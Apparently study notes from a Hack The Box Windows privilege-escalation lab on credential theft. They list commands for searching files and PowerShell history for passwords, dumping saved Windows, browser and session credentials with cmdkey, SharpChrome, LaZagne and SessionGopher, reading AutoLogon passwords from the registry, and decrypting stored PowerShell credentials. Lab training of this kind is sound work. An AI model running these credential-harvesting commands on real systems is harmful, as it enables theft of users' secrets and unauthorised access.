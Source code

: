 # Credential Theft

## **Credential Hunting**

*   `PS C:\\htb> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml` searching for files

    here, /S : search in the current directory and all sub directory

    /I : Ignore case sensitivity of the string being searcher

    /M : outputs only the filenames that contain the search string and not the actual lines where the string is found.

    or

    `findstr /S /I /C:"password" "C:\\Users\\*"*.txt *.ini *.cfg *.config *.xml`
*   `C:\\Users\\<username>\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadLine\\ConsoleHost_history.txt` → Powershell history

    ```powershell
    PS C:\\htb> (Get-PSReadLineOption).HistorySavePath

    C:\\Users\\htb-student\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadLine\\ConsoleHost_history.txt
    ```

    Confirming powershell history save path

    ```powershell
    PS C:\\htb> gc (Get-PSReadLineOption).HistorySavePath

    ```

    Reading Powershell history file

## **Other Files**

#### **Manually Searching the File System for Credentials**

* `C:\\htb> cd c:\\Users\\htb-student\\Documents & findstr /SI /M "password" *.xml *.ini *.txt`
* `C:\\htb> findstr /si password *.xml *.ini *.txt *.config`
* `C:\\htb> findstr /spin "password"`

#### Using Powershell

* `PS C:\\htb> select-string -Path C:\\Users\\htb-student\\Documents\\*.txt -Pattern password`
* `C:\\htb> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*`
* `C:\\htb> where /R C:\\ *.config`
* `PS C:\\htb> Get-ChildItem C:\\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore`

## **Further Credential Theft**

* `C:\\htb> cmdkey /list` → list stored usernames and passwords
* `PS C:\\htb> runas /savecred /user:inlanefreight\\bob "COMMAND HERE"` → Run command as another user.

#### **Browser Credentials**

* `PS C:\\htb> .\\SharpChrome.exe logins /unprotect` → retrieve cookies and saved logins from Google Chrome
* `PS C:\\htb> .\\lazagne.exe all` → using Lazagne to retrieve credentials from a wide variety of software.
* We can use [SessionGopher](https://github.com/Arvanaghi/SessionGopher) to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP credentials.

```powershell
PS C:\\htb> Import-Module .\\SessionGopher.ps1

PS C:\\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
```

#### **Windows AutoLogon**

Windows [Autologon](https://learn.microsoft.com/en-us/troubleshoot/windows-server/user-profiles-and-logon/turn-on-automatic-logon) is a feature that allows a user to configure their Windows operating system to automatically log on to a specific user account, without requiring manual input of the username and password at each startup. The registry keys associated with Autologon can be found under `HKEY_LOCAL_MACHINE` in the following hive, and can be accessed by standard users:

```
C:\\htb>reg query "HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon"

HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0

    <SNIP>

    AutoAdminLogon    REG_SZ    1
    DefaultUserName    REG_SZ    htb-student
    DefaultPassword    REG_SZ    HTB_@cademy_stdnt!
```

#### **Clear-Text Password Storage in the Registry**

#### Putty

* `Computer\\HKEY_CURRENT_USER\\SOFTWARE\\SimonTatham\\PuTTY\\Sessions\\<SESSION NAME>` → Putty saved sessions are stored in this registery location

#### **Viewing Saved Wireless Networks**

* `C:\\htb> netsh wlan show profile`

### **PowerShell Credentials**

PowerShell credentials are often used for scripting and automation tasks as a way to store encrypted credentials conveniently. The credentials are protected using [DPAPI](https://en.wikipedia.org/wiki/Data\_Protection\_API), which typically means they can only be decrypted by the same user on the same computer they were created on.

```powershell
PS C:\\htb> $credential = Import-Clixml -Path 'C:\\scripts\\pass.xml'

PS C:\\htb> $credential.GetNetworkCredential().username

bob

PS C:\\htb> $credential.GetNetworkCredential().password

Str0ng3ncryptedP@ss!
```
